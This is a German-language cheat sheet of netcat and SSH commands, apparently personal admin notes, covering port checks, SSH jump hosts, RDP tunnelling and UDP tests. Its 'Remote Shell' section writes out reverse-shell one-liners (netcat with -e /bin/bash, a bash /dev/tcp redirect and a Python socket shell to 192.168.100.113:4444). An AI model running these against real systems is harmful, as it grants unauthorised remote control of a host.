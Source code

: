 .. _nc_allg:

################
Netcat
################

Port offen:
============
nc -zv <host> <port>


Remote Shell
==============
Target Host: nc -lvp <port>
Source Host: 
* nc <target-ip> <port> -e /bin/bash

Alternativ via Bourne Shell auf dem target host:
Auf dem Target: bash -i >& /dev/tcp/192.168.100.113/4444 0>&1

Alternativ via Python auf dem target host:
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.100.113”,4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);''


SSH
=====

Jumphost
---------

ssh über zwei Jumphosts:
    ssh -A -J <user@jmp1host>,<user@jmp2host> <user>@<zielhost>
    
    oder .ssh/config
    Host <zielhost>
        ProxyJump <user@jmp1host>,<user@jmp2host> <user>@<zielhost>

    dann mit <user>@<zielhost> anmelden

Windows RDP über ssh-Jumphost
------------------------------
ssh -L 33389:<windows terminalserver>:3389 -N <user>@<linux jumphost>

UDP Test
=========
https://unix.stackexchange.com/questions/235830/how-does-netcat-know-if-a-udp-port-is-open

Test zwischen zwei Servern: 

.. code-block:: 

    a:~# nc -luk 10.12.0.12 667 // listen on UDP port 667
    b:~# nc -uv 10.12.0.12 667  // check if port is open 
    
    Sent a simple message:
    a:~# nc -luk 10.12.0.12 667 // listen on UDP port 667
    b:~# nc -u 10.12.0.12 667
    I love stackexchange // send a message
    a:~# nc -luk 10.12.0.12 667
    I love stackexchange // receive the message.
